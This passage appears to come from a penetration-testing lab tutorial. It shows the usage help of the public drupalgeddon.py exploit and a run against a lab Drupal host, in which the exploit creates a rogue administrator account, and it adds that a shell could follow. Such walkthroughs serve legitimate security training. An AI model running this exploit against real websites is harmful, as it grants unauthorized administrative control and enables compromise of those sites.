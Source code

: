 ```shell-session
                           Written by:

                         Claudio Viviani

                      http://www.homelab.it

                         info@homelab.it
                     homelabit@protonmail.ch

                 https://www.facebook.com/homelabit
                   https://twitter.com/homelabit
                 https://plus.google.com/+HomelabIt1/
       https://www.youtube.com/channel/UCqqmSdMqf_exicCe_DjlBww



Usage: drupalgeddon.py -t http[s]://TARGET_URL -u USER -p PASS


Options:
  -h, --help            show this help message and exit
  -t TARGET, --target=TARGET
                        Insert URL: http[s]://www.victim.com
  -u USERNAME, --username=USERNAME
                        Insert username
  -p PWD, --pwd=PWD     Insert password
```

Here we see that we need to supply the target URL and a username and password for our new admin account. Let's run the script and see if we get a new admin user.

```shell-session
$ python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd

<SNIP>

[!] VULNERABLE!

[!] Administrator user created!

[*] Login: hacker
[*] Pass: pwnd
[*] Url: http://drupal-qa.inlanefreight.local/?q=node&destination=node
```

Now let's see if we can log in as an admin. We can! Now from here, we could obtain a shell through the various means discussed previously in this section.
